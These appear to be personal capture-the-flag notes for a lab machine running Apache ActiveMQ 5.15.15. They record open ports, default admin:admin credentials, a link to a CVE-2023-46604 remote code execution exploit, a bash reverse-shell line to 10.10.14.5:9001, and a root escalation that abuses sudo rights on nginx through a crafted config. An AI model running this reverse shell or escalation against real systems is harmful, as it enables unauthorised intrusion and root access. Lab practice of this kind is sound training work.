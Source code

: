| HOST | PORT | PROTO | SERVICE | VERSION
| 10.10.11.243 | 22 | tcp | OpenSSH | 8.9p1 Ubuntu 3ubuntu0.4 | 
| 10.10.11.243 | 80 | tcp | nginx | 1.18.0 | 


## HEADERS
---
HTTP/1.1 401 Unauthorized
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 10 Nov 2023 12:54:50 GMT
Content-Type: text/html;charset=iso-8859-1
Content-Length: 447
Connection: keep-alive
WWW-Authenticate: basic realm="ActiveMQRealm"
Cache-Control: must-revalidate,no-cache,no-store
---

## DIRECTORIES
---

---

## USERS
---
[/] admin:admin
activemq
root

---

## NOTES
---
basic http auth on /
Jetty 9.4.39
admin:admin to login
activemq message broker v5.15.15 (java based)
Exploit - https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ
Change poc-linux.xml to do `bash -c bash -i &gt;&amp; /dev/tcp/10.10.14.5/9001 0&gt;&amp;1` (html encoded)
cat ~/user.txt (user flag)
sudo -l (ALL : ALL) NOPASSWD: /usr/sbin/nginx
cp /etc/nginx/nginx.conf /dev/shm/
```
user root;
worker_processes auto;
pid /run/nginx.pid2;
include /etc/nginx/modules-enabled/*.conf;

events {
        worker_connections 768;
}

http {
        server {
                listen 1337;
                location / {
                        root /;
                        autoindex on;
                        }
                }
}
```
sudo nginx -c /dev/shm/nginx.conf
curl localhost:1337/root/root.txt (root flag)

---
